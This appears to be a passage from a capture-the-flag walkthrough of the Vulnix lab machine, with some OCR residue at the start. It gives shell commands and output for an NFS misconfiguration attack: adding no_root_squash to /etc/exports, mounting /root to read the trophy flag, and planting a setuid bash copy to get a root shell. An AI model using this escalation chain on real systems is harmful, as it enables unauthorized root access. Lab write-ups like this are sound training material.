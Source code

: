 vulnix@vulnix:~$ sudoedit /etc/exports  
>/home/vulnix    *(rw,root_squash)  
>/root   *(rw,**no_root_squash**) <- ADDED

**Reboot!**

root@kali:/home/kali# showmount -e 192.168.1.100  
>Export list for 192.168.1.100:  
>/root        *  
>/home/vulnix *

root@kali:/mnt# mount 192.168.1.100:/root /mnt/root  
root@kali:/mnt# cd /mnt/root  
root@kali:/mnt/root# ls -lrth  
>total 4.0K  
>-r-------- 1 root root 33 Sep  2  2012 trophy.txt

root@kali:/mnt/root# cat trophy.txt  
>***cc614640424f5bd60ce5d5264899c3be***


### GETTING ROOT SHELL

vulnix@vulnix:~$ sudoedit /etc/exports  
>/home/vulnix    *(rw,**no_root_squash**) <- MODIFIED  
>/root   *(rw,no_root_squash)

**Reboot!**

vulnix@vulnix:~$ cp /bin/bash /home/vulnix  
root@kali:/mnt/vulnix# chmod 4777 bash   
root@kali:/mnt/vulnix# ls -lrth
>total 900K  
>-rw**s**rwxrwx 1 root root 900K Mar 10 16:47 bash

vulnix@vulnix:~$ ./bash -p  
bash-4.2# id  
>uid=2008(vulnix) gid=2008(vulnix) euid=0(**root**) groups=0(**root**),2008(vulnix)
